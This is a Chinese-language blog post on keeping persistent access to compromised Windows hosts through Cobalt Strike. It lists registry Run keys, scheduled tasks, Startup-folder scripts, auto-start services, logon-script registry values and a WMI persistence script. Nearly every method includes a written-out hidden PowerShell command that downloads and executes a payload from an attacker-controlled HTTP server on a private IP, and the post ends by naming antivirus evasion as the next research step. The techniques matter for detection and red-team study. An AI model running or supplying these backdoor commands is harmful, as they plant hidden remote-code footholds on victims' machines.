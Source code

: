 ```yaml
---
title: Windows权限维持
date: 2021-05-23 13:15:04
categories: 渗透测试技巧
tags: 权限维持
---
```


#### 背景

在拿到目标系统权限之后，为了防止权限不会因系统重启或其他情况而丢失，需要建立一个持久化的据点，本文收集和整理了几种常见权限维持的技巧，目前这几种方法均会被杀软拦截，所有操作均在cs上完成。

<!--more-->

#### 权限维持

##### 注册表启动项

注册表启动项是常见的持久化方式，主要有两个路径

1. HKEY_CURRENT_USER  简写 HKCU
2. HKEY_LOCAL_MACHINE  简写 HKLM

HKCU为当前用户路径，而HKLM为机器路径

添加自启动项

需要管理员权限

```vbscript
shell reg add hklm\software\microsoft\windows\currentversion\run /v "shell" /t REG_SZ /d "c:\windows\system32\windowspowershell\v1.0\powershell.exe -nop -w hidden -c \"IEX((new-object net.webclient).downloadstring('http://192.168.1.14:8080/a'))\"" /f
```

这里采用无文件落地方式，不然可直接将**/d**参数后跟上可执行文件后门路径即可

若找不到powershell路径，可切换到根目录试试如下命令

`dir /s /b powershell.exe`

![](https://cdn.laohuan.art/2021-04-24_16-26.png)

查询刚刚添加的键值

` shell reg query hklm\software\microsoft\windows\currentversion\run`

![](https://cdn.laohuan.art/2021-04-24_16-31.png)

重启之后可上线

![](https://cdn.laohuan.art/2021-04-24_16-37.png)

##### 计划任务

计划任务在win8之前使用at命令，之后使用schtasks命令来创建或删除计划任务

此处创建的计划任务通过**/ru system**命令以管理员权限启动，所以创建此计划任务同样需要管理员权限。

```vbscript
 shell schtasks /create /tn update /tr "c:\windows\system32\windowspowershell\v1.0\powershell.exe -windowstyle hidden -Nologo -Noninteractive -ep bypass -nop -c 'IEX((new-object net.webclient).downloadstring(''http://192.168.1.14:8080/a'''))'" /sc onstart /ru system
```

**/sc**参数

1. onstart 系统启动
2. onlogon 用户登陆
3. onidle  /i 1 系统空闲,**/i**参数指定系统必须持续空闲1分钟才启动计划任务

![](https://cdn.laohuan.art/2021-04-24_17-20.png)

查看创建的计划任务

` shell schtasks /query /fo list /tn update /v `

![](https://cdn.laohuan.art/2021-04-24_20-10.png)

重启上线

![](https://cdn.laohuan.art/2021-04-24_20-03.png)

##### 启动项

放在自启动目录下的程序或快捷方式在用户登陆时都会自动启动

* 当前用户

  ` C:\Users\当前用户名\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup`

* 所有用户

  `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp`

测试放入1.bat，实战可放入可执行恶意程序或恶意快捷方式

1.bat执行恶意powershell代码

`powershell.exe -nop -w hidden -c IEX((new-object net.webclient).downloadstring('http://192.168.1.14:8080/a'))`

##### 自启动服务

cs上可直接生成以服务运行的可执行程序，这里继续以无文件落地的方式演示实验

创建名为shell的自启动服务

`shell sc create "shell" binpath= "cmd /c start powershell.exe -nop -w hidden -c IEX((new-object net.webclient).downloadstring('http://192.168.1.14:8080/a'))"`

设置服务描述

`shell sc description "shell" "test"`

设置服务自启动

`shell sc config "shell" start= auto`

启动服务

`shell net start "shell"`

##### Logon Scripts后门

当用户登陆时触发

注册表：`HKEY_CURRENT_USER\Environment\`

创建**UserInitMprLogonScript**键值

```vbscript
shell reg add  HKCU\Environment  /v UserInitMprLogonScript /t REG_SZ  /d "c:\windows\system32\windowspowershell\v1.0\powershell.exe -nop -w hidden -c \"IEX((new-object net.webclient).downloadstring('http://192.168.1.14:8080/a'))\"" /f
```

![](https://cdn.laohuan.art/2021-04-28_21-03.png)

##### WMI

windows可通过WMI使用命令行或批处理命令来管理系统，相当于一个可与系统交互的API,windows默认安装。

网上已有利用WMI做权限维持的脚本

[**WMI-Persistence.ps1**](https://github.com/n0pe-sled/WMI-Persistence/blob/master/WMI-Persistence.ps1)

修改payload

![](https://cdn.laohuan.art/2021-04-28_21-27.png)

1.`powershell-import /home/kali/software/WMI-Persistence.ps1 `

2.`powershell Install-Persistence`

3.`powershell Check-WMI`

删除，不然会一直轮循弹shell回来

4.powershell  Remove-Persistence

![](https://cdn.laohuan.art/2021-04-28_21-38.png)

![](https://cdn.laohuan.art/2021-04-28_21-39.png)

#### 后话

目前上述所有方法都会被杀软拦截，除了对可执行程序的免杀之外，如何在杀软不会拦截的情况下实现权限维持是需要继续研究的点，上述只是一般权限维持的常见手法，还有许多思路奇特新颖的方法等着去尝试。

#### 参考链接

* [https://www.freebuf.com/articles/system/229209.html](https://www.freebuf.com/articles/system/229209.html)
* [https://xz.aliyun.com/t/8095](https://xz.aliyun.com/t/8095)

